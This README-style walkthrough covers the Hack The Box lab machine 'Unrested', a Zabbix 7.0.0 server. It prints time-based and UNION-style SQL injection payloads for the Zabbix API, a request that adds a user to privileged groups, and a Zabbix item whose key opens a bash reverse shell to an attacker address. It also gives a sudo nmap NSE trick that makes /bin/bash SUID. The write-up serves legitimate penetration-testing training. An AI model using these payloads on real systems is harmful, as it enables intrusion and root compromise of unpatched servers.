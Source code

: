 # Unrested HTB Walkthrough

[![Hack The Box](https://img.shields.io/badge/HackTheBox-Unrested-yellow?logo=hackthebox)](https://app.hackthebox.com/machines/639)
[![Difficulty: Medium](https://img.shields.io/badge/Difficulty-Medium-yellow)](https://github.com/subhash00/HackTheBox/)
[![Platform: Linux](https://img.shields.io/badge/Platform-Linux-blue)](https://github.com/subhash00/HackTheBox/)
[![Topic: Linux-PrivEsc](https://img.shields.io/badge/Topic-Linux--PrivEsc-yellowgreen)](https://en.wikipedia.org/wiki/Privilege_escalation)

## Overview
This walkthrough documents the process of solving the Unrested machine on Hack The Box. Unrested is a medium difficulty Linux machine running Zabbix 7.0.0, which is vulnerable to multiple security flaws including API privilege escalation, SQL injection, and sudo misconfigurations. The exploitation leverages CVE-2024-36467 and CVE-2024-42327 affecting the Zabbix JSON-RPC API and a sudo misconfiguration allowing root access via running Nmap with specific options.

The goal is to enumerate the machine, exploit the vulnerable API endpoints to gain user access, extract credentials from the database via SQLi, and finally escalate privileges with a clever Nmap-based exploit.

---

## Table of Contents
- [Enumeration](#enumeration)
- [API Exploitation](#api-exploitation)
- [Reverse Shell Setup](#reverse-shell-setup)
- [Privilege Escalation via Nmap](#privilege-escalation-via-nmap)
- [Root Shell and Flag](#root-shell-and-flag)
- [Stepwise PoC](#stepwise-poc)
- [Tools Used](#tools-used)
- [Technologies Used](#technologies-used)

---

## Enumeration


**Scan all TCP ports quickly**
```
ports=$(nmap -p- --min-rate=1000 -T4 10.129.231.176 | grep '^[0-9]' | cut -d '/' -f1 | tr '\n' ',' | sed s/,$//)
```
**Detailed service/version scan on discovered ports**
```
nmap -p$ports -sC -sV 10.129.231.176
```

---

## API Exploitation

### Vulnerable Zabbix API Endpoint
- API Endpoint: `http://<ip>/zabbix/api_jsonrpc.php`
- Vulnerable methods: `user.get`, `host.get`, `user.login`, `item.create`, `user.update`
- Reference:
  ```
  https://support.zabbix.com/browse/ZBX-25623
  https://github.com/zabbix/zabbix
  https://github.com/compr00t/CVE-2024-42327?tab=readme-ov-file
  https://nvd.nist.gov/vuln/detail/CVE-2024-42327
  ```

---

### SQL Injection and Database Extraction
- Create **access token** using 'user.login' method.
- Leverage user.update to add users to privilege groups.
- Use SQL injection to extract session IDs and sensitive data using time-based or error-based payloads on API parameters.
- Example payload for tables enumeration and SQL identification:
```
roleid","name AND (SELECT 1 FROM (SELECT SLEEP(5))A)"]

##After adding user to privilege groups.
roleid, @@version
roleid, (SELECT GROUP_CONCAT(table_name SEPARATOR '\n') FROM information_schema.tables LIMIT 1)
```
---

### Example: Time base SQL Injection 
```
{
  "jsonrpc": "2.0",
  "method": "user.get",
  "params": {"output":
["userid","username"],"selectRole":["roleid","name AND (SELECT 1 FROM (SELECT SLEEP(5))A)"],"editable":1},
  "id": 1,
  "auth": "171377d99af202a822d842c0039639d5"
}

```
---

###  Leverage user.update to add our user to privilege group. 
```
{"jsonrpc": "2.0", "method": "user.update", "params": {"userid": "3", "usrgrps": [{"usrgrpid":"7"},{"usrgrpid":"13"}]},
"auth":"bed8160dd79972adb7a870fa758c7710",
 "id": 1,
 "auth": "171377d99af202a822d842c0039639d5"
}
```

---

### Enumerate columns in sessions table (SQLi)
```
{
"jsonrpc": "2.0",
"method": "user.get",
"params": {
"selectRole": [
"roleid",
"(SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name='sessions')"
],
"userids": ["1"]
},
"auth": "a",
"id": 1
}
```

---

### Get `hostid` and `interfaceid` required to create items
```
{
"jsonrpc": "2.0",
"method": "host.get",
"params": {
"output": ["hostid"],
"selectHostGroups": "extend",
"selectInterfaces": ["interfaceid"]
},
"auth": "a",
"id": 1
}
```

---

## Reverse Shell Setup

### Netcat listener on attacker's machine
```
nc -lvvp 4448
```

### Create malicious item with reverse shell payload in Zabbix
**Note: hostid and interfaceid are copied from response of host.get method call**
```
{
"jsonrpc": "2.0",
"method": "item.create",
"params": {
"name": "Reverse Shell",
"key_": "system.run[bash -c 'bash -i >& /dev/tcp/10.10.14.99/4545 0>&1']",
"hostid": "10084",
"type": 0,
"value_type": 4,
"interfaceid": "1",
"delay": "60s"
},
"auth": "1054172ff39264342a5a1d3f6be60f11",
"id": 1
}
```

---

## Privilege Escalation via Nmap

### Check sudo privileges of current user
```
sudo -l
```
Output shows user can run `/usr/bin/nmap` as root without password.

### Create NSE Lua script to escalate privileges
```
echo 'os.execute("chmod 4755 /bin/bash")' > /tmp/nse_main.lua
```

### Run Nmap with custom data directory to use our script
```
sudo /usr/bin/nmap --datadir=/tmp -sC localhost
```

### Spawn a root shell using SUID bash
```
/bin/bash -p
id # Verify root privileges
```

---

## Stepwise PoC

<details>
<summary>💻<strong>(click to expand)</strong> </summary>
<img width="1473" height="645" alt="19" src="https://github.com/user-attachments/assets/d585960a-76d5-491c-a8b9-47cf0b53046a" />
<img width="1495" height="702" alt="18" src="https://github.com/user-attachments/assets/890dd080-954a-4207-943a-3b19c3f6c076" />
<img width="1907" height="762" alt="17" src="https://github.com/user-attachments/assets/049a72b2-0e51-49de-9404-b8ed350d92a0" />
<img width="1914" height="802" alt="16" src="https://github.com/user-attachments/assets/52ac97bb-c2cd-40a1-8840-7e3dea7f0114" />
<img width="1916" height="759" alt="15" src="https://github.com/user-attachments/assets/b21350ef-81ee-41c1-ba37-081507eb697c" />
<img width="1094" height="843" alt="14" src="https://github.com/user-attachments/assets/b319d7e0-aeea-4c6c-8c9c-42ed76a77cf8" />
<img width="1051" height="826" alt="13" src="https://github.com/user-attachments/assets/8f9e1084-a79f-48d3-b08a-49c00529c4e8" />
<img width="1839" height="545" alt="12" src="https://github.com/user-attachments/assets/017f96e0-4361-492d-b227-0d958fd028cd" />
<img width="1920" height="619" alt="11" src="https://github.com/user-attachments/assets/7edb7f74-5526-4174-ae6a-1359380ea80b" />
<img width="1868" height="519" alt="10" src="https://github.com/user-attachments/assets/3dd220d5-5070-4cef-ab23-6f86cad931ad" />
<img width="1831" height="635" alt="9" src="https://github.com/user-attachments/assets/8f8aaf51-2669-4c64-ad3c-ab63826df8e9" />
<img width="1920" height="680" alt="8" src="https://github.com/user-attachments/assets/51d745fe-9e2b-46f1-89e6-4df7ea92876b" />
<img width="1907" height="676" alt="7" src="https://github.com/user-attachments/assets/0b61d3a3-8fb0-4412-93e8-7d1841d38520" />
<img width="1915" height="687" alt="6" src="https://github.com/user-attachments/assets/f083baa0-85c8-4da0-9422-a38b824d0296" />
<img width="1798" height="496" alt="5" src="https://github.com/user-attachments/assets/ab11c80e-f223-4e68-aeeb-76c84b78a406" />
<img width="944" height="241" alt="4" src="https://github.com/user-attachments/assets/88845044-48ed-4eba-a50a-f185ceacd535" />
<img width="1526" height="498" alt="3" src="https://github.com/user-attachments/assets/040f6443-3bec-4be5-ad75-7ef221305146" />
<img width="941" height="221" alt="2" src="https://github.com/user-attachments/assets/2b1db28b-e7c6-4df7-97d9-365e26533b3e" />
<img width="1294" height="403" alt="1" src="https://github.com/user-attachments/assets/7903ef0c-f7ec-4c2f-8eb0-90643ffb132c" />

</details>

---

## Tools Used

- **Nmap**: Network scanning and service enumeration tool. Also used here with NSE scripting for privilege escalation.
- **Curl**: Command-line HTTP client used to interact with Zabbix API.
- **Netcat (nc)**: Used to setup a listener to catch reverse shell connections.
- **Base64**: Used to encode/decode exploit scripts.
- **Bash**: Shell interpreter for running commands and scripts.

---

## Technologies Used

- **Zabbix 7.0.0**: Open source network monitoring software, vulnerable here via its API and misconfigured sudo permissions.
- **Lua**: Lightweight scripting language used to write NSE scripts for Nmap.
- **SQL Injection**: Exploiting improper input sanitization in API parameters to perform unauthorized data extraction.
- **SUID (Set User ID)**: Unix file permission that allows executables to run with the owner’s privileges, enabling privilege escalation.

---

